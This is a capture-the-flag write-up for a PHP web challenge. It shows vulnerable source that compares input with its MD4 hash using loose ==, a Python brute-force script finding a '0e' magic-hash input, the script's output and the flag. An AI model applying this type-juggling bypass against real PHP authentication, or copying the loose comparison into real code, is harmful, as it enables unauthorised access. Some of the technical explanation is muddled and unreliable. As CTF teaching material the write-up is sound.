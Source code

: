 ## MD5--
### Category : Web

---
```
md5-- == md4

```

After visiting the given link, we get to see the source of `index.php` 

```
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```

We need to find whose md4 hash "equals" the value of itself. Now since `==` is used instead of `===`, it's a loose comparison. In Loose comparison, whencomparing a string to a number, PHP will attempt to convert the string to a number then perform a numeric comparison. Sounds good, doesn't work. for example,  
```
0e12 == int(0) => True
```

`e` refers to an exponential in a decimal number, but also refers to `14`, when the string is supposed to be a hexadecimal number. Now, this is where we take advantage of the vulnerability. `md4(<some number>)`, will return a hexadecimal string, of the decimal value of `<some number>`. 
The easiest way to do this is to provide a number starting with 0e, which MD4 hash begins with 0e as well and contains only numbers.

A simple bruteforce does the trick.

`exploit.py`
```
import hashlib
import re

prefix = '0e'

def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        h = hashlib.new("md4")
        h.update(s.encode())
        hashed_s = h.hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print ("[+] found! md4( {} ) ---> {}".format(s, hashed_s))
            print ("[+] in {} iterations".format(iters))
            exit(0)

        if iters % 1000000 == 0:
            print ("[+] current value: {}       {} iterations, continue...".format(s, iters))

breakit()
```

output
```
[+] current value: 0e999999       1000000 iterations, continue...
[+] current value: 0e1999999       2000000 iterations, continue...
[+] current value: 0e2999999       3000000 iterations, continue...
.
.
.
.
[+] current value: 0e249999999       250000000 iterations, continue...
[+] current value: 0e250999999       251000000 iterations, continue...
[+] found! md4( 0e251288019 ) ---> 0e874956163641961271069404332409
[+] in 251288020 iterations

```

Took roughly 5-7 mins to get the hash.
On inputting the value, we get the flag
```
FLAG : hsctf{php_type_juggling_is_fun}
```
